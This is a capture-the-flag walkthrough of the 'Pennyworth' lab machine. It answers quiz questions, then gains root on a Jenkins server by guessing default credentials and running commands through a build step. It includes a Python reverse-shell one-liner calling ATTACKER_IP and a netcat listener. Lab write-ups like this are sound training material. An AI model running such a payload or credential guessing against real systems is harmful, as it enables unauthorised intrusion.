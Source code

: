 ```yaml
---
title: "[Starting Point] Tier 1: Pennyworth"
tags:
  - Very Easy
  - Linux
  - Jenkins
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  | 10.129.82.175 |  |

---

### [ What does the acronym CVE stand for? ]

Common Vulnerabilities and Exposures

---

### [ What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? ]

Confidentiality, Integrity, Availability

---

### [ What is the version of the service running on port 8080? ]

Let's run an nmap scan on the target machine. We load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.175
```

![screenshot1](../assets/images/pennyworth/screenshot1.png)

From the results, we can see that only 1 port is open: **8080 (HTTP)**

The service version running is: **Jetty 9.4.39.v20210325**

---

### [ What version of Jenkins is running on the target? ]

Let's visit `http://10.129.82.175:8080`

![screenshot2](../assets/images/pennyworth/screenshot2.png)

We are brought to a Jenkins login page.

I tried common admin credentials, such as **admin:admin** and **root:root**. 

Eventually, I came across a set of creds that allowed me to log in:

> root : password

![screenshot3](../assets/images/pennyworth/screenshot3.png)

From the bottom of the page, we can see the Jenkins version: **2.289.1**

---

### [ What type of script is accepted as input on the Jenkins Script Console? ]

![screenshot4](../assets/images/pennyworth/screenshot4.png)

**Groovy** script is accepted as input.

---

### [ What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? ]

cmd.exe

---

### [ What is a different command than "ip a" we could use to display our network interfaces' information on Linux? ]

`ifconfig`

---

### [ What switch should we use with netcat for it to use UDP transport mode? ]

`-u`

---

### [ What is the term used to describe making a target host initiate a connection back to the attacker host? ]

reverse shell

---

### [ Submit root flag ]

We can use Jenkin's Groovy Script Console to open a reverse shell back to us (the attacker).

First, we click on the '**Groovy Script**' project on the dashboard. This will bring us to the following page:

![screenshot5](../assets/images/pennyworth/screenshot5.png)

Next, we click on **Configure** on the left side-bar, which will bring us to the configuration page for the Groovy Script Console.

Scroll down to the **Build** section. Click on **Add build step** > **Execute shell**. Let's try to run a simple `id` command:

![screenshot6](../assets/images/pennyworth/screenshot6.png)

After saving, we will be brought back to the main page.

Click on **Build Now** on the left side-bar. After some time, a new entry should appear at the bottom left, under **Build History**:

![screenshot7](../assets/images/pennyworth/screenshot7.png)

*(There should only be 1 entry, I've already built multiple times)*

Click on the new entry, then click on **Console Output**:

![screenshot8](../assets/images/pennyworth/screenshot8.png)

Nice! The `id` command was successfully run and we have achieved **remote code execution**. We can now open a reverse shell back to our machine. 

*(I'll be using the Python payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))*

Replace `id` in the build settings with:

```
export RHOST="ATTACKER_IP";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Next, set up a netcat listener running on your specified port:

```
nc -lvnp 4444
```

Finally, build the project.

![screenshot9](../assets/images/pennyworth/screenshot9.png)

The reverse shell is opened and we're in!

The **root flag** can be found in /root:

![screenshot10](../assets/images/pennyworth/screenshot10.png)

